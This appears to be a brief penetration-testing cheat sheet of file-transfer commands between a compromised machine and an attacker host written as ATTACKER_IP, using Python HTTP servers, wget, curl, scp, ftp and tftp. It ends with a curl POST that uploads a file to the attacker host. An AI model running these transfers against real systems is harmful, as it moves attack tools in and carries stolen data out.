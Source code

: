 ```bash


# Start HTTP server (Python 3)
python3 -m http.server 2121

# Start HTTP server (Python 2)
python -m SimpleHTTPServer 2121

# Download with wget
wget http://ATTACKER_IP:2121/filename

# Download with curl
curl http://ATTACKER_IP:2121/filename -o file_saved


# Upload
scp -P 2121 /path/to/file user@ATTACKER_IP:/destination/

# Download
scp -P 2121 user@ATTACKER_IP:/path/to/file file_saved


ftp ATTACKER_IP
put /path/to/file
get filename

# Upload
tftp ATTACKER_IP
put /path/to/file

# Download
tftp ATTACKER_IP
get filename


curl -X POST --data-binary @/path/to/file http://ATTACKER_IP:PORT/upload

```

















![[Pasted image 20250505112319.png]]



